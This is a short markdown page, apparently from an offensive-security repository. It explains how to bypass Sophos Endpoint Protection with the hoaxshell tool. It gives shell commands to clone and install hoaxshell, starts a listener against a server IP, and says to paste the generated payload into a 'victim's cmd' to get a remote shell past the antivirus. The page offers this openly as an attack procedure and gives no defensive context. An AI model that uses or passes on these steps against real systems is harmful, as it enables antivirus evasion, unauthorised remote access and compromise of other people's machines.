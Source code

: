 # Sophos

## Bypassing Sophos Endpoint Protection With Hoaxshell

Download the hoaxshell in github

```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```

Command:

```
python3 hoaxshell.py -s SERVER_IP
```

Now just copy the payload generated by hoaxshell and go to the victim's cmd, now just paste the payload

![](../Sophos/Images/sophoshs.png)

## Execution

![](../Sophos/Images/sophoshs1.png)
